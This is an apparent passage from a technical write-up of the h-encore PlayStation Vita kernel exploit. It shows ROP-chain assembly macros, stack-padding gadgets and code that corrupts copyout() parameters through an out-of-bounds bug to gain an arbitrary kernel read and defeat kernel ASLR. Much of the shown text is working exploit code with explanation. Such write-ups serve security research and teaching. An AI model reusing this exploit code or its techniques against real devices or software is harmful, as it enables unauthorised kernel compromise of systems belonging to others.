 ```c
    mul_add_rvv ret, loop_start - loop_end, loop_end

    // Stack pivot
    store_rv         ret, ldm_data_r0 + 0x0c
    set_r0_r2_ip_sp_lr_pc ldm_data_r0
  loop_end:
```

Note that we are using the macro `load_call_lvv_2` here instead of `load_call_lvv`. The difference is that the second version skips some words before the call:

```c
  .word add_sp_14_pop_pc                   // pc
  .word 0xDEADBEEF                         // dummy
  .word 0xDEADBEEF                         // dummy
  .word 0xDEADBEEF                         // dummy
  .word 0xDEADBEEF                         // dummy
  .word 0xDEADBEEF                         // dummy
```

This is necessary because when calling subroutines in ROP, the stack gets corrupted due to the subroutine's stack allocations such as for the prologue, where callee saved registers are pushed onto stack (side mark: if you call a syscall, then the user stack remains untouched). Normally this does not matter, but in a loop we want to reuse the gadgets. In our case the stack is corrupted by `push.w {r4, r5, r6, r7, r8, lr}` in `sceNgsRackGetRequiredMemorySize()`, since it is to be exact only a wrapper that calls the actual syscall `sceNgsRackGetRequiredMemorySizeInternal()`.

#### Defeating kernel ASLR

We have now only partially defeated kernel ASLR by learning the kernel stack base address. However to build a kernel ROP chain which we will later use, we must know at least a base address of a kernel module. This is because we cannot implicitly execute user executable memory in kernel, thus our ROP chain cannot consist of user gadgets.  
While reverse engineering the codepath of the rack syscall, I found something bizarre: It is using some fields in the SceNgsBlock header in order to store temporary variables. Some of those are the parameters for a `copyout()`!  
This means that we can easily enable an arbitrary kernel read primitive by using our out-of-bounds exploit to overwrite these parameters (see [stage2.S](https://github.com/TheOfficialFloW/h-encore/blob/master/stage2/stage2.S)):

```c
  // Set presets information in voice definition
  store_vv PRESET_LIST_OFFSET, voice_def_buf + 0x30
  store_vv 2,                  voice_def_buf + 0x34

  // Set presets
  set_preset 0, 0,                   -(0x148 + 2 * 0x18) + COPYOUT_PARAMS_OFFSET
  set_preset 1, FAKE_COPYOUT_OFFSET, FAKE_COPYOUT_SIZE

  // Overwrite copyout's dst, src and len
  call_vvv memset,      voice_def_buf + FAKE_COPYOUT_OFFSET, 0, FAKE_COPYOUT_SIZE
  store_vv sysmem_base, voice_def_buf + FAKE_COPYOUT_OFFSET + 0x04 // dst
  add_lv   kstack_base, KSTACK_SYSMEM_OFFSET
  store_rv ret,         voice_def_buf + FAKE_COPYOUT_OFFSET + 0x08 // src
  store_vv 4,           voice_def_buf + FAKE_COPYOUT_OFFSET + 0x1c // len

  // Trigger exploit
  trigger_exploit

  // Get SceSysmem base address
  load_add_store sysmem_base, sysmem_base, SCE_SYSMEM_OFFSET
```
